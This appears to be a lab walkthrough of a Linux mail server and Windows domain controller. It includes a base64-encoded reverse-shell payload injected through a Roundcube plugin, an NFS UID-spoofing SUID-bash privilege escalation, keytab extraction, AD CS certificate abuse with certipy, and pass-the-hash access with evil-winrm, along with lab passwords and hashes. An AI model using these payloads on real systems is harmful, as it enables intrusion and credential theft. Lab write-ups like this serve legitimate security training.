# Enumeration
1.
```
PORT     STATE SERVICE  VERSION
22/tcp   open  ssh      OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 60:bc:22:26:78:3c:b4:e0:6b:ea:aa:1e:c1:62:5d:de (ECDSA)
|_  256 a3:b5:d8:61:06:e6:3a:41:88:45:e3:52:03:d2:23:1b (ED25519)
25/tcp   open  smtp     Postfix smtpd
|_smtp-commands: mail01.hybrid.vl, PIPELINING, SIZE 10240000, VRFY, ETRN, STARTTLS, AUTH PLAIN LOGIN, ENHANCEDSTATUSCODES, 8BITMIME, DSN, CHUNKING
80/tcp   open  http     nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Roundcube Webmail :: Welcome to Roundcube Webmail
110/tcp  open  pop3     Dovecot pop3d
|_ssl-date: TLS randomness does not represent time
|_pop3-capabilities: UIDL RESP-CODES SASL STLS CAPA TOP AUTH-RESP-CODE PIPELINING
| ssl-cert: Subject: commonName=mail01
| Subject Alternative Name: DNS:mail01
| Not valid before: 2023-06-17T13:20:17
|_Not valid after:  2033-06-14T13:20:17
111/tcp  open  rpcbind  2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100003  3,4         2049/tcp   nfs
|   100003  3,4         2049/tcp6  nfs
|   100005  1,2,3      35201/tcp6  mountd
|   100005  1,2,3      35217/tcp   mountd
|   100005  1,2,3      57114/udp6  mountd
|   100005  2,3        36686/udp   mountd
|   100021  1,3,4      32822/udp   nlockmgr
|   100021  1,3,4      36721/tcp   nlockmgr
|   100021  1,3,4      39365/tcp6  nlockmgr
|   100021  1,3,4      45555/udp6  nlockmgr
|   100024  1          46461/tcp   status
|   100024  1          51301/tcp6  status
|   100024  1          53725/udp6  status
|   100024  1          58455/udp   status
|   100227  3           2049/tcp   nfs_acl
|_  100227  3           2049/tcp6  nfs_acl
143/tcp  open  imap     Dovecot imapd (Ubuntu)
|_imap-capabilities: more capabilities OK SASL-IR IDLE ID post-login listed ENABLE IMAP4rev1 have Pre-login LOGIN-REFERRALS LOGINDISABLEDA0001 STARTTLS LITERAL+
| ssl-cert: Subject: commonName=mail01
| Subject Alternative Name: DNS:mail01
| Not valid before: 2023-06-17T13:20:17
|_Not valid after:  2033-06-14T13:20:17
|_ssl-date: TLS randomness does not represent time
587/tcp  open  smtp     Postfix smtpd
|_smtp-commands: mail01.hybrid.vl, PIPELINING, SIZE 10240000, VRFY, ETRN, STARTTLS, AUTH PLAIN LOGIN, ENHANCEDSTATUSCODES, 8BITMIME, DSN, CHUNKING
993/tcp  open  ssl/imap Dovecot imapd (Ubuntu)
|_imap-capabilities: more capabilities AUTH=PLAIN SASL-IR OK ID post-login listed ENABLE IMAP4rev1 have Pre-login LOGIN-REFERRALS AUTH=LOGINA0001 LITERAL+ IDLE
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=mail01
| Subject Alternative Name: DNS:mail01
| Not valid before: 2023-06-17T13:20:17
|_Not valid after:  2033-06-14T13:20:17
995/tcp  open  ssl/pop3 Dovecot pop3d
|_pop3-capabilities: UIDL RESP-CODES USER SASL(PLAIN LOGIN) CAPA TOP AUTH-RESP-CODE PIPELINING
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=mail01
| Subject Alternative Name: DNS:mail01
| Not valid before: 2023-06-17T13:20:17
|_Not valid after:  2033-06-14T13:20:17
2049/tcp open  nfs_acl  3 (RPC #100227)
33389/tcp open  mountd   1-3 (RPC #100005)
35217/tcp open  mountd   1-3 (RPC #100005)
36721/tcp open  nlockmgr 1-4 (RPC #100021)
39683/tcp open  mountd   1-3 (RPC #100005)
46461/tcp open  status   1 (RPC #100024)
```
2.
```
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2024-04-08 03:15:55Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: hybrid.vl0., Site: Default-First-Site-Name)
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=dc01.hybrid.vl
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:dc01.hybrid.vl
| Not valid before: 2023-06-17T14:05:41
|_Not valid after:  2024-06-16T14:05:41
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: hybrid.vl0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=dc01.hybrid.vl
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:dc01.hybrid.vl
| Not valid before: 2023-06-17T14:05:41
|_Not valid after:  2024-06-16T14:05:41
|_ssl-date: TLS randomness does not represent time
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: hybrid.vl0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=dc01.hybrid.vl
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:dc01.hybrid.vl
| Not valid before: 2023-06-17T14:05:41
|_Not valid after:  2024-06-16T14:05:41
|_ssl-date: TLS randomness does not represent time
3269/tcp open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: hybrid.vl0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=dc01.hybrid.vl
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:dc01.hybrid.vl
| Not valid before: 2023-06-17T14:05:41
|_Not valid after:  2024-06-16T14:05:41
|_ssl-date: TLS randomness does not represent time
3389/tcp open  ms-wbt-server Microsoft Terminal Services
| rdp-ntlm-info: 
|   Target_Name: HYBRID
|   NetBIOS_Domain_Name: HYBRID
|   NetBIOS_Computer_Name: DC01
|   DNS_Domain_Name: hybrid.vl
|   DNS_Computer_Name: dc01.hybrid.vl
|   Product_Version: 10.0.20348
|_  System_Time: 2024-04-08T03:16:37+00:00
| ssl-cert: Subject: commonName=dc01.hybrid.vl
| Not valid before: 2024-04-07T03:15:05
|_Not valid after:  2024-10-07T03:15:05
|_ssl-date: 2024-04-08T03:17:16+00:00; -2s from scanner time.
5985/tcp  open  http       Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf     .NET Message Framing
49664/tcp open  msrpc      Microsoft Windows RPC
49668/tcp open  msrpc      Microsoft Windows RPC
53746/tcp open  ncacn_http Microsoft Windows RPC over HTTP 1.0
53748/tcp open  msrpc      Microsoft Windows RPC
53762/tcp open  msrpc      Microsoft Windows RPC
53769/tcp open  msrpc      Microsoft Windows RPC
53784/tcp open  msrpc      Microsoft Windows RPC
60502/tcp open  msrpc      Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

```
There is a website on mail01.hybrid.vl:

Checking the nfs:
```
showmount -e mail01.hybrid.vl
```


Mounting NFS:
```
sudo mount -t nfs mail01.hybrid.vl:/opt/share ./target-NFS/ -o nolock
```

There is a backup tarball and extracting it:


Now checking the dovecot-users file there is clear-text password:

Now using this to login in the website:

A mail states the presence of markasjunkl plugin which we can use for rce:


Changing identity like this lets us test it:

Now trying to get reverse shell.

Base64 encode the payload and try to run
```
echo${IFS}c2ggLWkgPiYgL2Rldi90Y3AvMTAuOC4xLjIwOC80NDMgMD4mMQ==|base64${IFS}-d|bash
```

Now putting the email in junk triggers the reverse shell:


Checking /etc/exports:


Now copying bash from victim machine into */opt/share* then accessing the share in attacker machine with a user `uwu` created with same uid and gid:
```
sudo useradd uwu -u 902601108
```
```
sudo passwd uwu
```
Copying bash to /tmp and changing ownership with:
```
sudo chown uwu:uwu bash
```
Then replacing the bash in the share with the changed ownership bash and giving SUID:
```
chmod +s bash
```

Now running bash with:
```
bash -p
```

We get a shell as peter.turner:


From peter’s home directory, we can find `passwords.kdbx` file which is a keepass password safe file
We get domain password:

We can use this password to check privileges of peter, which can run anything as root



# DC Access
Running bloodhound:
```
bloodhound.py -d 'hybrid.vl' -u 'peter.turner' -p 'b0cwR+G4Dzl_rw' -gc 'dc01.hybrid.vl' -ns 10.10.132.229
```


Now using it to check for vulnerable certificates(run on kali):
```
certipy find -u 'peter.turner' -p 'b0cwR+G4Dzl_rw' -dc-ip 10.10.208.21 -stdout -vulnerable -debug 
```

Then using `-old-bloodhound` to import the data into bloodhound.

Using root user in the linux machine and getting the `krb5.keytab` file and using  
```
keytabextract.py krb5.keytab
```
to decrypt it and we get creds for MAIL01$:

Using this to req certificate in certipy:
`certipy req -u 'MAIL01$'@hybrid.vl -hashes 0f916c5246fdbc7ba95dcef4126d57bd -c 'hybrid-DC01-CA' -target 'hybrid.vl' -template 'HybridComputers' -upn 'administrator@hybrid.vl' -dns 'dc01.hybrid.vl' -key-size 4096 -debug`

To get hashes:
`certipy auth -pfx administrator_dc01.pfx -dc-ip 10.10.208.21`


Then to get admin shell:
`evil-winrm -i hybrid.vl -u administrator -H 60701e8543c9f6db1a2af3217386d3dc`
